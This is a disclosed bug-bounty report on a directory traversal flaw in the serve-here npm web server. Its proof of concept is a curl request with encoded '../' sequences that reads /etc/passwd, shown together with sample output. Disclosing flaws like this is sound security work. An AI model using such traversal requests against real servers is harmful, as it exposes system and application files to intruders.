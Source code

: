 # [serve-here] Static Web Server Directory Traversal via Crafted GET Request

## Report Details
- **Report ID**: 296254
- **URL**: https://hackerone.com/reports/296254
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-12-08T12:44:55.679Z
- **Disclosed**: 2018-01-10T20:41:50.119Z

## Reporter
- **Username**: ysx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi,

A crafted GET request can be leveraged to traverse the directory structure of a host using the `serve-here` web server package, and request arbitrary files outside of the specified web root.

## Module specification
* **Name**: [serve-here](https://www.npmjs.com/package/serve-here)
* **Version**: 3.2.0 (latest release build)

## Verified conditions
* **Test server:** Ubuntu 16.04 LTS
* **cURL package**: `curl 7.55.1 (2017-08-14)`

## Proof of concept

Please install the `serve-here` package and `cd` to a chosen directory (in this case, `/root`) on your test server. Next, run `here -p 8081` to start serving from this location.

Substituting the `<server-IP>` value as appropriate, the following cURL request can be used to demonstrate this vulnerability by requesting the target `/etc/passwd` file:

```
curl "http://<server-IP>:8081/..%2f..%2fetc/passwd"
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
[...]
```

Thanks,

Yasin

## Impact

An adversary can leverage this vulnerability to request arbitrary files from the target host, which may include application source code or system files.

## Attachments
No attachments
